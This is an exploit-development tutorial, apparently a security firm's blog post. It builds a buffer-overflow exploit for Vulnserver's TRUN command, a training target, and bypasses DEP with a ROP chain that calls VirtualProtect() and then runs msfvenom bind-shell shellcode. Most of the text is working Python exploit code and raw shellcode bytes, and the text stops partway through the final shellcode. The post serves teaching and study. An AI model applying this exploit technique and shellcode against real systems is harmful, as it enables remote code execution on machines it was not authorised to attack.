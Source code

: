 :page-slug: vulnserver-trun-rop/
:page-date: 2020-08-27
:page-category: attacks
:page-subtitle: Exploiting Vulnserver with ROP
:page-tags: osee, training, exploit, vulnserver
:page-image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331216/blog/vulnserver-trun-rop/cover_fyj5gk.webp
:page-alt: Photo by Syed Ali on Unsplash
:page-description: This post will show how to create a complete, functional exploit creating a complex shellcode using ROP
:page-keywords: Business, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:page-author: Andres Roldan
:page-writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/74JeU2jfnfk

= TRUN: Exploiting with ROP

In the last blog posts, we've been link:../understanding-dep/[dealing with DEP]
(Data Execution Protection) and a way to
link:../bypassing-dep/[bypass it with ROP] (Return-Oriented Programming).
If you haven't read those articles, I strongly recommend it before diving
into this one.

In this article, we will use `ROP` to create a fully working exploit for
the `TRUN` command of link:../tags/vulnserver/[Vulnserver] on a
DEP-enabled Windows 10 OS.

== ROP chains

In the link:../bypassing-dep/[last article], we used `ROP` to put the value
`0xdeadbeef` on `EAX`. To do that, we used 2 gadgets (sequence of
instructions ending with `RETN`) that performed the needed operations.
What we used is something known as a *ROP chain*, because we chained together
pointers to gadgets on the stack. When one of the gadgets returns, will
give control to the next, until the end of the chain.

`ROP` chains leverage existing instructions on the executable environment
to perform arbitrary actions. In fact, it was demonstrated that `ROP` is
Turing-complete, which means that we can solve any computational problem
using it, which ranges from making `EAX = 0xdeadbeef` to creating a
reverse TCP connection shellcode and beyond.

However, Turing-completeness does not imply code efficiency, and creating
a working shellcode using `ROP` could be a very frustrating and tedious work.

Fortunately for us, we can reuse our old shellcodes. Yes, I mean it. But
on a DEP-enabled OS, that involves a little of extra effort!

== Marking shellcode as executable

When you use a CPU with the `NX` (No-execute) bit present, Windows provide
`DEP` as a mean to leverage it. `DEP` is enabled by the OS which means that
it can be disabled too.

That means that we can use `ROP` to disable `DEP` on certain memory region,
place our good old shellcode there and redirect execution to that memory space.

There are many ways to do that, from creating a new heap into the
process with execution permission to allocating new memory on the default
heap with execution bit enabled or modifying existing memory to mark it as
executable.

The most portable methods are the last two. The first (allocating new memory)
is performed using the `VirtualAllow()` function. The second uses
`VirtualProtect()`.

What you may use depend on several things, mainly the version of Windows you
are attacking. Also, if one of those functions is already loaded on the
executable environment of the vulnerable application, it would be a good
indicator.

Let's load `vulnserver.exe` on a debugger to see if we can find one of those
functions:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331221/blog/vulnserver-trun-rop/virtualprotect1_enpg6v.gif[VirtualProtect()]

We were lucky. `VirtualProtect()` was found in the `IAT` (Import Address
Table) of our executable. We will use that method.

== VirtualProtect() signature

According to Microsoft, the `VirtualProtect()` signature is the following:

[source,cpp]
----
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
----

The parameters are:

. `lpAddress` is the starting address on where we will store the shellcode.
. `dwSize` is the size of the memory region we'll mark as executable, starting
at `lpAddress`.
. `flNewProtect` is the mask of bits defining the permissions that the address
region would have (We'll use this to mark it as executable).
. `lpflOldProtect` is an address that will receive the current
permissions of the `lpAddress + dwSize` region.

Using `ROP` we need to put the values of that parameters on the stack.
We also need to setup the stack in a way that we can *return* into the
`VirtualProtect()` call and configure a return address that will be used
as the next `EIP` when `VirtualProtect()` returns. The following diagram
shows the expected stack layout just after executing our first `RETN`:

.Stack layout
[source,text]
----
Lower addresses
...
.-----------------.
|                 |
`-----------------'
        ESP
.-----------------.
|                 | <- Address to VirtualProtect()
`-----------------'
.-----------------.
|                 | <- Return address for VirtualProtect()
`-----------------'
.-----------------.
|                 | <- lpAddress
`-----------------'
.-----------------.
|                 | <- dwSize
`-----------------'
.-----------------.
|                 | <- flNewProtect
`-----------------'
.-----------------.
|                 | <- lpflOldProtect
`-----------------'
.-----------------.
|                 | <- Start of our shellcode
`-----------------'
...

Higher addresses
----

Let's see what would be the values to that parameters:

. Address to `VirtualProtect()`: This can be obtained using the debugger.
Ideally, we will use later the reference on the `IAT` to this function. For
now, we found that `VirtualProtect()` is at `0x76070420`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331216/blog/vulnserver-trun-rop/virtualprotect1_pn6rni.webp[VirtualProtect()]

. Return address for `VirtualProtect()`: This should be a pointer to a
`JMP ESP` or `CALL ESP` instruction. This will redirect the execution flow to
our shellcode when the `ROP` chain finishes, enabling the execution flag on
the stack. You can obtain multiple options for this value using
`!mona jmp -n -r esp`. I will pick `0x625011AF`

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331213/blog/vulnserver-trun-rop/monajmp1_tmmgoz.webp[Mona JMP]

. `lpAddress`: This should be the start address on where we expect to
store our shellcode. In our case, this should be the value of `ESP` and the
value can only be obtained at runtime. We'll get to that later.
. `dwSize`: Is the size of the address region that will be marked
as executable, starting at `lpAddress`. Something like `512` bytes (`0x200`)
would be enough.
. `flNewProtect`: Flags to be setup on the memory region. We need to mark
it as executable, readable and writable (`PAGE_EXECUTE_READWRITE`) whose
value is `0x40`
. `lpflOldProtect`: A pointer to a memory region that will receive the current
permissions of `lpAddress`. That means that this value should point to a place
where we have write permissions. You can use the debugger to find the right
place. Ideally this should be an address to a module without `ASRL` or
`Rebase`. In this case I'll choose the one at `0x62504040`:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331218/blog/vulnserver-trun-rop/writable1_nlr7f6.webp[Writable]

== Verifying execution

Before ROP'ing that values, let's check if that call works. I will update
the exploit from the link:../bypassing-dep/[previous article] with the
call to `VirtualProtect()`.
The goal of that exploit was to make `EAX = 0xdeadbeef`.
I will use placeholder values where needed, and update them at debug time,
just to check how `VirtualProtect()` works:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # Pointer to `VirtualProtect()`: 0x6250609C -> 0x76070420
    struct.pack('<L', 0x76070420) +
    # Pointer to JMP ESP
    struct.pack('<L', 0x625011AF) +
    # lpAddress: Dynamic value. Will put a placeholder for now
    struct.pack('<L', 0x41414141) +
    # dwSize: 0x00000200. As we can't inject NULL bytes, we will place
    # 0x11111201 for now
    struct.pack('<L', 0x11111201) +
    # flNewProtect: 0x00000040: As we can't inject NULL bytes, we will place
    # 0x11111140 for now
    struct.pack('<L', 0x11111140) +
    # lpflOldProtect, Pointer to writable address: 0x62504040
    struct.pack('<L', 0x62504040) +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

I will now run the exploit in stages, to explain every step:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331214/blog/vulnserver-trun-rop/run1_rffdx0.gif[Stage 1]

Here, we can see that we effectively injected the parameters on the stack
and that our first `RETN` gave control to call `VirtualProtect()`.
However, there are some values that need to be changed. Let's do that:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331214/blog/vulnserver-trun-rop/run2_bikqys.gif[Stage 2]

In this part, I modified the `lpAddress` value with the current value of `ESP`,
then modified `dwSize` making it `0x00000200` or 512 bytes, and
`flNewProtect` was set to `0x40` (`PAGE_EXECUTE_READWRITE`). Now, let the
exploit continues with the modified values:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331216/blog/vulnserver-trun-rop/run3_dy8pb2.gif[Stage 3]

Wonderful! The `VirtualProtect()` call effectively marked the region
where our shellcode was placed as executable and we could make
`EAX = 0xdeadbeef`. We bypassed `DEP` again!

However, that was not a valid execution because we had to use the debugger
to change some values.

== ROP it all

We need to use `ROP` to setup that values. The easiest way is to put the
required values on general purpose registers and then push them to the
stack in the required order. To do that, we can harness the `PUSHAD`
instruction that will save all the general purpose registers on the stack
in the following order:

* `EAX`, `ECX`, `EDX`, `EBX`, `ESP`, `EBP`, `ESI`, `EDI`.

That means that when `PUSHAD` is executed, the stack will have this content:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 |
	`-----------------'
	.-----------------.
ESI	|                 |
	`-----------------'
	.-----------------.
EBP	|                 |
	`-----------------'
	.-----------------.
ESP	|                 | <- This is the value of ESP *before* the call to PUSHAD
	`-----------------'
	.-----------------.
EBX	|                 |
	`-----------------'
	.-----------------.
EDX	|                 |
	`-----------------'
	.-----------------.
ECX	|                 |
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

The most important value for us is the original `ESP` value because that
address is the one that must placed on the `lpAddress` parameter. Using
`lpAddress` as the starting point, we need to place the other parameters
to the adjacent registers, as well as the pointer to `VirtualProtect()`
and the return address:


.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 |
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

Great, all the parameters for `VirtualProtect()` fit on those registers.

But something happens here. You may notice that the `EDI` register is not
used, but when our first `RETN` is executed, it will land there. In that case,
we need to store on `EDI` a pointer to a `RETN` instruction again.
This will make the execution return to where `ESI` address is pointing,
which is the call to `VirtualProtect()`:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 | <- Pointer to RETN instruction
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

You will also note that `EAX` is also not set and this is the place where
the shellcode is supposed to start. To overcome that, we can fill `EAX` with
`NOP` instructions that will slide the execution to the shellcode:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 | <- Pointer to RETN instruction
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 | <- \x90\x90\x90\x90
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

Perfect. We need to use `ROP` gadgets to setup those registers first and
then add a pointer to a `PUSHAD # RETN` gadget at the end of the chain.
Fortunately for us, `mona` will do the hard work, by issuing the following
command:

[source,bash]
----
!mona rop -m *.dll -n
----

This will go through all executable modules finding `ROP` gadgets that can be
useful. At the end, `mona` will generate several files with the result.
The most important one in this stage is `rop_chains.txt` file that contains
the chain of gadgets needed to setup the registers with the values in
the required order.

This is the resulting ROP gadget chain in my system:

[source,python]
----
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
      0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebp:---]
      0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x625011b4,  # POP EAX # RETN [essfunc.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edx:---]
      0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ecx:---]
      0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
----

You can see that the registers are arranged exactly as we wanted.

We can incorporate that function in our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331217/blog/vulnserver-trun-rop/run4_ayeb4j.gif[ROP Chain]

Isn't it wonderful? We were able to setup the call to `VirtualProtect()` with
the required parameters using `ROP`.

Let's resume the execution to check if that worked:

image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331216/blog/vulnserver-trun-rop/run5_mxyouz.gif[ROP Chain]

Indeed! Again, we were able to make `EAX = 0xdeadbeef` using a traditional
shellcode. We can now replace that mock shellcode with one of our good ol'
ones from `msfvenom`:

[source,console]
----
$ msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xda\xd3\xbe\xaa\x69\x45\x3a\xd9\x74\x24\xf4\x5a"
SHELL += b"\x2b\xc9\xb1\x53\x31\x72\x17\x03\x72\x17\x83\x68"
SHELL += b"\x6d\xa7\xcf\x90\x86\xa5\x30\x68\x57\xca\xb9\x8d"
SHELL += b"\x66\xca\xde\xc6\xd9\xfa\x95\x8a\xd5\x71\xfb\x3e"
SHELL += b"\x6d\xf7\xd4\x31\xc6\xb2\x02\x7c\xd7\xef\x77\x1f"
SHELL += b"\x5b\xf2\xab\xff\x62\x3d\xbe\xfe\xa3\x20\x33\x52"
SHELL += b"\x7b\x2e\xe6\x42\x08\x7a\x3b\xe9\x42\x6a\x3b\x0e"
SHELL += b"\x12\x8d\x6a\x81\x28\xd4\xac\x20\xfc\x6c\xe5\x3a"
SHELL += b"\xe1\x49\xbf\xb1\xd1\x26\x3e\x13\x28\xc6\xed\x5a"
SHELL += b"\x84\x35\xef\x9b\x23\xa6\x9a\xd5\x57\x5b\x9d\x22"
SHELL += b"\x25\x87\x28\xb0\x8d\x4c\x8a\x1c\x2f\x80\x4d\xd7"
SHELL += b"\x23\x6d\x19\xbf\x27\x70\xce\xb4\x5c\xf9\xf1\x1a"
SHELL += b"\xd5\xb9\xd5\xbe\xbd\x1a\x77\xe7\x1b\xcc\x88\xf7"
SHELL += b"\xc3\xb1\x2c\x7c\xe9\xa6\x5c\xdf\x66\x0a\x6d\xdf"
SHELL += b"\x76\x04\xe6\xac\x44\x8b\x5c\x3a\xe5\x44\x7b\xbd"
SHELL += b"\x0a\x7f\x3b\x51\xf5\x80\x3c\x78\x32\xd4\x6c\x12"
SHELL += b"\x93\x55\xe7\xe2\x1c\x80\x92\xea\xbb\x7b\x81\x17"
SHELL += b"\x7b\x2c\x05\xb7\x14\x26\x8a\xe8\x05\x49\x40\x81"
SHELL += b"\xae\xb4\x6b\xbc\x72\x30\x8d\xd4\x9a\x14\x05\x40"
SHELL += b"\x59\x43\x9e\xf7\xa2\xa1\xb6\x9f\xeb\xa3\x01\xa0"
SHELL += b"\xeb\xe1\x25\x36\x60\xe6\xf1\x27\x77\x23\x52\x30"
SHELL += b"\xe0\xb9\x33\x73\x90\xbe\x19\xe3\x31\x2c\xc6\xf3"
SHELL += b"\x3c\x4d\x51\xa4\x69\xa3\xa8\x20\x84\x9a\x02\x56"
SHELL += b"\x55\x7a\x6c\xd2\x82\xbf\x73\xdb\x47\xfb\x57\xcb"
SHELL += b"\x91\x04\xdc\xbf\x4d\x53\x8a\x69\x28\x0d\x7c\xc3"
SHELL += b"\xe2\xe2\xd6\x83\x73\xc9\xe8\xd5\x7b\x04\x9f\x39"
SHELL += b"\xcd\xf1\xe6\x46\xe2\x95\xee\x3f\x1e\x06\x10\xea"
SHELL += b"\x9a\x36\x5b\xb6\x8b\xde\x02\x23\x8e\x82\xb4\x9e"
SHELL += b"\xcd\xba\x36\x2a\xae\x38\x26\x5f\xab\x05\xe0\x8c"
SHELL += b"\xc1\x16\x85\xb2\x76\x16\x8c"
----

And update our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)


# msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xbe\x9a\xd8\xa3\xeb\xd9\xc6\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x53\x31\x75\x12\x83\xc5\x04\x03\xef"
SHELL += b"\xd6\x41\x1e\xf3\x0f\x07\xe1\x0b\xd0\x68\x6b\xee"
SHELL += b"\xe1\xa8\x0f\x7b\x51\x19\x5b\x29\x5e\xd2\x09\xd9"
